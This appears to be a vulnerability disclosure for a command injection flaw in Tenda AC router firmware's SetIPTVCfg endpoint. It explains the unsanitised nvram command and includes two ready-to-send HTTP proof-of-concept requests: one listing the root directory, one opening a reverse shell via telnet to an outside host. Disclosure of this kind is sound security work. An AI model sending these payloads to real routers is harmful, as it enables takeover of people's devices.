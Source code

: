 # Tenda AC Series Routers Command Injection in formSetIptv

## Overview
Tenda AC Series Routers (e.g., AC15, AC23) are consumer-grade wireless routers supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: /goform/SetIPTVCfg
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```http
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

### PoC 2: Reverse shell
```POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
